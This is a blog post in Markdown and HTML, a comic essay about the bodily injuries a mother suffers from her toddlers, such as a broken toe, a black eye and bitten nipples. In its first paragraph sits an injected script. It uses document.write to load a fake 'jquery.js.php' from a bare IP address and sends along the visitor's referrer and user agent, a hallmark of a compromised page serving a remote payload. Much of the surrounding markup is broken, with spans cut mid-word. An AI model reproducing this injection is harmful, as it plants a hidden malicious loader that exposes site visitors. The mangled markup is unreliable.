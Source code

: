 ```yaml
---
layout: post
title: "The Pain Of Motherhood"
date: 04-Jul-2013
categories: tbd
---
```


# The Pain Of Motherhood

## 4th July 2013



 

<img class="photo-horiz" src="/images/2013/06/article_blocks-2.jpg" />

 

<span lang="EN-AU">**<span><span ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  'Times New Roman',   serif; font-size: medium;">This post was originally published in Practical Parenting Magazine, March 2013 (and as I post it, I am nursing the tender rib I injured reading the baby a bedtime story. Fa</span></span>**</span><span lang="EN-AU"><span **<span mily life! Y</span>**</span></span><span lang="EN-AU"><span **<span es, it</span>**</span></span><span lang="EN-AU"><span **<span  is a wondrous blessing. But it is also a fucking health hazard.)</span>**</span></span><span  </span>





<span lang="EN-AU"><span Last year sometime, during the lengthy, stinky process of toile</span></span><span lang="EN-AU"><span t tra</span></span><span lang="EN-AU"><span ining my son, I was quietly washing the dishes and thinking about blueberry cheesecake when a sudden screaming battle erupted in the bathroom.  It turned out that three year old T-Bone had been struck with a sudden desire to use the toilet, and found it occupied by his five-year-old sister Peanut. He was new to bathroom </span></span><span lang="EN-AU"><span etiquette, </span></span><span lang="EN-AU"><span and his solution to the problem was to push Peanut off her perch, mid-stream. Sibling war erupted, and in the heat of battle one, or both of them, pissed on the floor, which is when I ran in, slipped on the puddle and broke my toe.  That’s motherhood in a nutshell right there. Half drama, half comedy, and you can forget about dignity. You left that back in the birthing suite.  </span></span><span  </span>





<span lang="EN-AU"><span I remembered this incident recently now that my toddler has taken to slapping me in the face when I read the wrong book/get the wrong cup/mortally offend her in some other inexplicable baby way. And something has occurred to me. W</span></span><span lang="EN-AU"><span e all know that becoming a parent is an emotional journey.   Whole forests have been sacrificed to furnish the books that explain in what ways you will be emotionally changed and even scarred by motherhood. This is true: anxiety, rage, all of that angsty stuff comes with the territory.  But mainly, motherhood brings incredible joy and wonder and transformative, powerful love. Yes! Hooray for motherhood!</span></span><span  </span>





<span lang="EN-AU"><span And yet… there is a dark side. Along with the emotional pain, your children will inflict a lot of actual bodily harm upon you too.  There is, of course, the straight-up agony that comes with pregnancy and birth. Heartburn. Sciatica. Caesarean recovery. Blistered nipples. Torn perineums. But also, there are many mundane, routine ways for your kids to beat you up, from pulling your hair to kicking you in the genitals (a common and terrible experience for dads, I’m told.) </span></span>





<span lang="EN-AU"><span  </span></span><span For instance, T-Bone gave once me a black eye with a chicken drumstick.  I’ve also had what is sometimes called ‘toddlers wrist’ caused by a chubby two-year-old Peanut experiencing separation anxiety. She was only happy when carried, for so far and so long that I had to wear a kind of medical arm-Spanx for the duration. Pudding, now 18 months old, ended our breastfeeding relationship when she repeatedly bit me on the nipple. (The pain was bad, but the anticipation was worse.) Currently she’s obsessed with reading, so she hits me across the head with a board book (an underrated weapon with very pointy edges) whenever I stop, regardless of how much I explain that I must, at some point, chop some vegetables and hang washing or else we will be living in squalor, reading Ten Little Fingers by candlelight while cockroaches nibble our filthy toenails. But Pudding doesn’t care about my reasons. Babies don’t negotiate. They move straight to physical assault.</span><span  </span>





<span lang="EN-AU"><span It says something about how absolutely bewitching children are, how much unconditional adoration the heart can have, that we endure treatment  that would have us calling the police should another adult  inflict it. In short, it’s really good that babies are so damn adorable. Otherwise, they would all be arrested. </span></span>



<a href="http://www.facebook.com/sharer.php?u=&amp;linkname=The%20Pain%20Of%20Motherhood"><img class="photo-horiz" src="http://shongjog.files.wordpress.com/2008/04/share-on-facebook.gif?" />
